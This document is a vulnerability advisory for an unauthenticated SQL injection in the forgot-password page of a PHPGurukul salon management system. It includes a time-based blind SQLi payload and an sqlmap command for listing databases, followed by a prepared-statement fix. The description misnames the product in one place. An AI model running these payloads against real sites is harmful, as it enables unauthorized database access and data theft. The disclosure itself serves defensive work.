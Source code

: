 # SQL Injection Vulnerability in Men Salon Management System Using PHP and MySQL


## 🛠 Affected Product
- **Product:** Men Salon Management System Using PHP and MySQL  
- **Version:** v1.0  
- **Vendor:** [phpgurukul.com](https://phpgurukul.com/men-salon-management-system-using-php-and-mysql/)  
- **Download Link:** [Download v1.0](https://phpgurukul.com/?sdm_process_download=1&download_id=14066)

---

## 🧨 Vulnerability Details

- **Type:** SQL Injection  
- **Location:** `/admin/forgot-password.php`  
- **Vulnerable Parameters:** `email`, `contactno`
- **Authentication Required:** ❌ No (public access)
- **Submitter:** bananoname

---

## 📋 Description

A critical SQL Injection vulnerability exists in `admin/forgot-password.php` in the IFSC Code Finder Project v1.0 by PHPGurukul. The application does not properly sanitize user-supplied input (`email` and `contactno`) before using it in SQL queries, allowing unauthenticated attackers to inject malicious SQL.

### Impact:
- Unauthorized database access
- Data leakage and tampering
- Possible full system compromise

---

## 🧪 Proof of Concept (PoC)

``````http
POST /admin/forgot-password.php HTTP/1.1
Host: victim-site.com
Content-Type: application/x-www-form-urlencoded

email=admin' AND (SELECT 1218 FROM (SELECT(SLEEP(5)))NvLc) AND 'HtBe'='HtBe&contactno=12323123&submit=Reset
``````
![image](https://github.com/user-attachments/assets/074eb397-1114-4e00-8b1b-1b346ac008c5)

✅ Expected Behavior:
Page should return "Invalid details"

❌ Actual Behavior:
Page redirects to reset-password.php even when email/contact doesn't exist, indicating successful injection.

And then use sqlmap below 
And then use sqlmap like this:

```bash
sqlmap -u 'http://10.20.3.7/msms/admin/forgot-password.php' \
# ↓↓↓ This is the vulnerable input ↓↓↓
--data="email=admin&contactno=12323123&submit=Reset" \
--dbs
```
![image](https://github.com/user-attachments/assets/960a424f-6e75-4219-9e30-fbc0b8da8124)
## 🎯 Impact
An attacker can exploit this vulnerability to:
- Bypass authentication
- Read sensitive data from the database
- Modify or delete data
- Escalate privileges
- Potentially achieve full control over the system

## 🛠 Suggested Repair
- To patch this vulnerability:
- ✅ Replace unsafe query:
```
$query = mysqli_query($con, "SELECT ID FROM tbladmin WHERE Email='$email' AND MobileNumber='$contactno'");
```
❌ Unsafe: Uses raw user input in SQL.
✅ Use prepared statements (MySQLi) instead:
```
$stmt = $con->prepare("SELECT ID FROM tbladmin WHERE Email = ? AND MobileNumber = ?");
$stmt->bind_param("ss", $email, $contactno);
$stmt->execute();
$result = $stmt->get_result();
```
## ➕ Additional Recommendations:
- Validate input types (e.g., regex for email and contact number)
- Enable error logging (not error_reporting(0))
- Use a Web Application Firewall (WAF)
- Sanitize all POST/GET parameters before using them
